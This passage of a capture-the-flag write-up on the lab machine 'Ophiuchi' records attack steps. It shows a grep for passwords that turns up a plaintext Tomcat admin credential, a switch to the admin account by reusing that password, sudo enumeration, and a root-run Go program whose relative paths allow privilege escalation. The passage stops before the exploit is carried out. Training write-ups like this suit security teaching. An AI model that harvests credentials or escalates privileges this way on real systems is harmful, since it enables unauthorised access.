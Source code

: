 During the enumeration phase it was not possible to access the **/manager/** area with default credentials, meaning that **credentials was different**. Finding them would be an **easy win in case of password reuse**.

Searched tomcat admin credentials:

```bash
tomcat@ophiuchi:~$ grep -ri 'password' . --color 2>/dev/null
...
./conf/tomcat-users.xml:<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
...
```

Logged as **admin** reusing tomcat credentials:

```bash
tomcat@ophiuchi:~$ su admin
Password: whythereisalimit
admin@ophiuchi:/opt/tomcat$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

# Privilege Escalation

## Relative Path Hijacking in a custom Go binary

Enumerated sudo privileges for the **admin** user:

```bash
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

Enumerated contents of **/opt/wasm-functions/index.go**:

```bash
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)

func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
```